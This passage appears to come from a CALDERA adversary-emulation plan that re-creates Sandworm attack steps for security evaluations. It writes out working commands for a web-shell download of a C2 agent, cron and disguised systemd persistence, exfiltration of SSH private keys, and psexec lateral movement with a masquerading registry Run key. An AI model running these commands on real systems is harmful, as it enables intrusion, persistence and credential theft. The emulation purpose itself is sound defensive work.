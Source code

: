     ```
    curl --insecure "https://10.0.1.5/search.php?cmd=curl+--insecure+-X+POST+-H+file:sandcat.go+-H+platform:linux+-H+server:http://192.168.0.4:8888+-H+group:caladan+http://192.168.0.4:8888/file/download+-o+centreon_module_linux_app64" 2>/dev/null;
    ```

- An extra ability is included to wait for 40 seconds for the new elevated agent to start beaconing in to the C2 server.

## Step 14

- The following command is run via `sh` to emulate the original GoLang implementation for cron persistence:

    ```
    dir=$(dirname /var/www/html/centreon_module_linux_app64);
    croncontents=$(crontab -l 2>/dev/null);
    printf "$croncontents\n1 * * * * cd $dir && centreon_module_linux_app64\n@reboot cd $dir && centreon_module_linux_app64\n" | crontab -
    ```

- The following command is run via `sh` to emulate the original GoLang implementation for systemd persistence:

    ```
    printf "[Unit]\nDescription=Syslog daemon\n\n[Service]\nWorkingDirectory=$(dirname #{location})\nExecStartPre=/bin/rm -f /tmp/.applocktx\nExecStart=#{location}\nRestart=always\n\n[Install]\nWantedBy=multi-user.target" > /etc/systemd/system/syslogd.service;
    chmod 0644 /etc/systemd/system/syslogd.service;
    systemctl enable syslogd.service;
    systemctl daemon-reload;
    ```

- Instead of transferring the SSH key files directly to the CALDERA server, the agent will execute the following `cat` commands via `sh` and send the output to the CALDERA server: `cat /home/fherbert/.ssh/id_rsa;cat /home/fherbert/.ssh/id_rsa.pub;`

## Step 15

- The CALDERA agent executable for the lateral movement target will be compiled and downloaded as `wsmprovav.exe` and will be used instead of the actual `wsmprovav.exe` executable used in evals.
  - The agent will act as the remote access implant and will replace the Exaramel-based malware from evals.
  - Note that the agent executable will directly connect to the C2 server and does not act as a stager or dropper. No DLL will be downloaded or executed as part of this process.
- When running the psexec python script, since the user's environment may not have the script pre-installed, or in a different directory, the user must download the script by executing the `./download_payloads.sh` script prior to starting the CALDERA server. This will download the required `psexec_sandworm.py` script in the payloads directory within the `emu` plugin.
  - The commandline when running the psexec script has been modified to run without any manual user input, and may look something like the following:

    ```
    ./psexec_sandworm.py -service-name "Windows Check AV" WORKGROUP/username:userpassword@10.0.1.7 cmd /c 'reg.exe LOAD HKU\Temp "C:\Users\username\NTUSER.DAT" & reg.exe ADD HKU\Temp\Software\Microsoft\Windows\CurrentVersion\Run /t REG_EXPAND_SZ /v SecurityHealth /d "C:\Windows\wsmprovav.exe"' 2>&1
    ```
